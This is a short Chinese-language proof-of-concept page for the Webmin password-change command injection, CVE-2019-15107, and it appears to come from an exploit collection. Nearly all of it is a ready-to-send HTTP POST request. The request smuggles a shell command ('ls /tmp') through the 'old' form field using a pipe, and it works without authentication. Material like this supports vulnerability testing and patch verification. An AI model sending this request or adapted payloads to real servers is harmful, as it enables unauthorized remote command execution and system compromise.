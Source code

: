 ## webmin 远程命令执行 （CVE-2019-15107）

### 简介

Webmin是功能强大的基于Web的类Unix系统管理工具. 在找回密码页面存在无需权限的命令注入漏洞, 可以执行任意系统命令.

### POC

通过 Burpsuite 发送修改密码的 post 请求, 可以调用系统命令. 

```
POST /password_change.cgi HTTP/1.1
Host: 192.168.128.108:59354
Cookie: redirect=1; testing=1
Content-Length: 65
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://192.168.128.108:59354
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://192.168.128.108:59354/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

user=rootxx&pam=&expired=2&old=test|ls /tmp&new1=test2&new2=test2
```

